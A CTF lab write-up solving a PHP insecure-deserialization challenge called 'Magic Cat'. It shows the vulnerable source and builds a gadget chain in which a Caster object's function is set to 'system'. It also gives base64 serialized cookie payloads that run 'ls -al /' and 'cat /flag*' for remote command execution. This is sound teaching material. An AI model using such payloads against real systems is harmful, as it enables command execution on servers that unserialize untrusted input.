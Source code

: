```yaml
---
title: Simple Web 0x18(Lab - Magic Cat)
tags: [NTUSTWS, CTF, Web]

---
```


# Simple Web 0x18(Lab - Magic Cat)
###### tags: `NTUSTWS` `CTF` `Web`
Challenge: http://h4ck3r.quest:8602/

## Background
None...

## Source code
:::spoiler code
```php=<?php
isset($_GET['source']) && die(!show_source(__FILE__));

class Magic
{
    function cast($spell)
    {
        echo "<script>alert('MAGIC, $spell!');</script>";
    }
}

// Useless class?
class Caster
{
    public $cast_func = 'intval';
    function cast($val)
    {
        return ($this->cast_func)($val);
    }
}


class Cat
{
    public $magic;
    public $spell;
    function __construct($spell)
    {
        $this->magic = new Magic();
        $this->spell = $spell;
    }
    function __wakeup()
    {
        echo "Cat Wakeup!\n";
        $this->magic->cast($this->spell);
    }
}

if (isset($_GET['spell'])) {
    $cat = new Cat($_GET['spell']);
} else if (isset($_COOKIE['cat'])) {
    echo "Unserialize...\n";
    $cat = unserialize(base64_decode($_COOKIE['cat']));
} else {
    $cat = new Cat("meow-meow-magic");
}
?>
<pre>
This is your 🐱:
<?php var_dump($cat) ?>
</pre>

<p>Usage:</p>
<p>/?source</p>
<p>/?spell=the-spell-of-your-cat</p>

```
:::
### Description & Analyze

## Exploit - unserialize
1. Test payload in local side
    ```bash!
    $ ./psysh
    > class Caster
    . {
    .     public $cast_func = 'intval';
    .     function cast($val)
    .     {
    .         return ($this->cast_func)($val);
    .     }
    . }
    > $test = new Caster
    = Caster {#2772
        +cast_func: "intval",
      }

    > $test->cast_func = 'system'
    = "system"
    > $test->cast('pwd')
    = "/home/sbk6401"
    ```
2. Construct serialized session
    ```bash!
    > class Cat
    . {
    .     public $magic;
    .     public $spell;
    .     function __construct($spell)
    .     {
    .         $this->spell = $spell;
    .         $this->magic = new Caster();
    .     }
    .     function __wakeup()
    .     {
    .         echo "Cat Wakeup!\n";
    .         $this->magic->cast($this->spell);
    .     }
    . }
    > $cat = new Cat("ls -al /")
    = Cat {#2771
        +magic: Caster {#2763
          +cast_func: "intval",
        },
        +spell: "ls -al /",
      }
    > $cat->magic->cast_func = "system"
    = "system"
    > base64_encode(serialize($cat))
    = "TzozOiJDYXQiOjI6e3M6NToibWFnaWMiO086NjoiQ2FzdGVyIjoxOntzOjk6ImNhc3RfZnVuYyI7czo2OiJzeXN0ZW0iO31zOjU6InNwZWxsIjtzOjg6ImxzIC1hbCAvIjt9"
    ```
    ![](https://i.imgur.com/x5tCrhb.png)

3. Get flag
    ```bash!
    > $cat->spell = "cat /flag*"
    = "cat /flag*"

    > base64_encode(serialize($cat))
    = "TzozOiJDYXQiOjI6e3M6NToibWFnaWMiO086NjoiQ2FzdGVyIjoxOntzOjk6ImNhc3RfZnVuYyI7czo2OiJzeXN0ZW0iO31zOjU6InNwZWxsIjtzOjEwOiJjYXQgL2ZsYWcqIjt9"
    ```
    ![](https://i.imgur.com/c5Kq7c4.png)

Flag: `FLAG{magic_cat_pwnpwn}`
## Reference
[PHP物件導向的第一課：class ](https://ithelp.ithome.com.tw/articles/10114633)
[【第十九天 - PHP反序列化(1)】](https://ithelp.ithome.com.tw/articles/10277044)